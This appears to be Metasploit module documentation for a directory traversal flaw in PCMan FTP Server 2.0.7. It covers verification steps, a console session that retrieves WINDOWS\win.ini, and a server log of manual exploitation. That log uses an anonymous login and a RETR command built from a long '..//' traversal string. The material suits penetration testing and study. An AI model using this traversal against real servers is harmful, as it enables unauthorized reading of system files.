 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in PCMan FTP Server 2.0.7. This vulnerability allows an attacker to download arbitrary files from the server by crafting a RETR command that includes file system traversal strings such as '..//'

Linked to software download [Exploit-DB](https://www.exploit-db.com/apps/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/pcman_ftp_traversal`
  3. set RHOSTS [ip]
  4. Do: `run`

## Scenarios

### PCMan FTP Server 2.0.7 on Windows 7 (X64)

  ```
  msf > use modules/auxiliary/scanner/ftp/pcman_ftp_traversal
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > show options
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set RHOST 1.1.1.1
    rhost => 1.1.1.1
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set PATH WINDOWS\\win.ini
    PATH => WINDOWS\win.ini
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > run    
    [+] 192.168.2.252:21      - Stored WINDOWS\win.ini to /root/.msf4/loot/20191120201523_default_1.1.1.1_pcman.ftp.data_069450.ini
    [*] 192.168.2.252:21      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

### Manual Exploitation

  ```
  2019/11/20 [12:46] (00588) 1.1.1.2> User connecting from 1.1.1.2

  2019/11/20 [12:46] (00588) 1.1.1.2> USER anonymous
  2019/11/20 [12:46] (00588) Anonymous> 331 User name okay, need password.

  2019/11/20 [12:46] (00588) Anonymous> PASS *****
  2019/11/20 [12:46] (00588) Anonymous> 230 User logged in

  2019/11/20 [12:46] (00588) Anonymous> PASV
  2019/11/20 [12:46] (00588) Anonymous> 227 Entering Passive Mode (1.1.1.1,8,1)

  2019/11/20 [12:46] (00588) Anonymous> RETR ..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//WINDOWS\win.ini
  2019/11/20 [12:46] (00588) Anonymous> 150 File status okay; Open data connection.

  2019/11/20 [12:46] (00588) Anonymous> 226 Data Sent okay.

  2019/11/20 [12:46] (00588) Anonymous> User Disconnected.
  ```

